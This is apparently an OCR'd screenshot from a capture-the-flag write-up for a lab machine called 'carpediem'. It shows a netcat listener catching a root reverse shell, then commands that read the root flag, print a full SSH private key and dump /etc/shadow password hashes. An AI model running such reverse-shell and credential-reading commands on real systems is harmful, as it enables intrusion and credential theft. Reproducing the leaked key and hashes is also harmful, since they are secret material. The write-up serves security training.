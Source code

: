 ```bash
➜  carpediem nc -lvnp 4400            
listening on [any] 4400 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 56780
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@carpediem:/# id && hostname
uid=0(root) gid=0(root) groups=0(root)
carpediem

root@carpediem:/# cat /root/root.txt
c57deb2eb7b17c84a0e40dc099b0bb70

root@carpediem:/# cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

root@carpediem:/# cat /etc/shadow
root:$6$y5QrvfE3csMMok1t$DvYGED3VsftC3ylIHA8yGVg2j2KiP7uooPn309LahXXPEZulnVWBwwKLorPdiW5snCgWEYN6F24b8LQALG1CD1:19081:0:99999:7:::
hflaccus:$6$Y3pKa50HWcGkr/KE$ZBG57pq5RIwDs9l75xJMz5Cv2SweVTFOcsv3WzRLC9c/QRX7wSgNT/XekUYEx
```
